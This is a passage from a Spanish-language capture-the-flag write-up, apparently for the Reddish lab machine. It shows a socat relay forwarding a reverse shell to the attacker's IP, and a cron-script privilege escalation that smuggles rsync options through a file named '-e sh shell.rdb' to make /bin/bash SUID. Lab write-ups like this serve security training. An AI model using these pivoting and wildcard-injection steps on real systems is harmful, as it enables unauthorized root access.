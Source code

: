 Si comprobamos si existe ese archio veremos que sí y que podemos ejecutar comandos. Ahora es el momento de entablarnos una reverse shell, pero como no tenemos conectividad con nuestra máquina deberemos usar **socat** para que funcione: [Descargar Socat](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat)

Para usarlo lo transferiremos a la máquina Node-Red y pondremos:
```bash
./socat TCP-LISTEN:4444,fork TCP:10.10.14.11:444
```
Y desde el archivo cmd.php enviaremos la reverse shell a la máquina **Node-Red** por el puerto **4444**. En nuestra máquina nos pondremos en escucha por el puerto 444.

Un artículo muy bueno para entender mejor el pivoting con Socat es el siguiente: [Pivoting con Socat](https://deephacking.tech/pivoting-con-socat/) 

Una manera para no liarte con las conexiones es usar **Obsidian** como en el esquema del principio. Así sabrás siempre por donde enviar y redirigir el tráfico de la reverse shell

## Escalada de Privilegios con www-data

Dentro de la máquina **www** tenemos que escalar privilegios como **www-data**. Para ello nos aprovecharemos de una **tarea cron** llamada backup y ejecutando el script **/backup/backup.sh** con el siguiente código:
```bash
cd /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
rsync -a *.rdb rsync://backup:873/src/rdb/
cd / && rm -rf /var/www/html/*
rsync -a rsync://backup:873/src/backup/ /var/www/html/
chown www-data. /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
```

**¿Cómo nos aprovechamos de esto?**
Este código está usando **Wildcard (*)** por lo que está confiando en el input del usuario y nos podemos aprovechar de eso.
Si buscamos en **GTFObins rsync** nos daremos cuenta de que hay una forma de ejecutar comandos. Para ello crearemos un archivo **shell.rdb** con un codigo en bash que asigne privilegios SUID a la /bin/bash y lo meteremos en la ruta /var/www/html/f187a0ec71ce99642e4f0afbd441a68b. 
Posteriormente creamos otro archivo con nombre '-e sh shell.sh' en la misma ruta que antes:
```bash
touch -- '-e sh shell.rdb'
```

Al usar wildcards rsync creerá que estamos ejecutando este comando:
```bash
rsync -a -e sh shell.rdb
```
Por lo que estaremos ejecutando el script shell.rdb y consiguiendo que la bash tenga permisos SUID. Ganando acceso como root.

Todavia no estamos en la máquina Reddish y vemos otro host llamado **backup** que si le hacemos un **ping** nos daremos cuenta de que es la **172.20.0.2** y si realizamos **hostname -I** encontraremos la interfaz **172.20.0**

## Ganando acceso al último contenedor con rsync
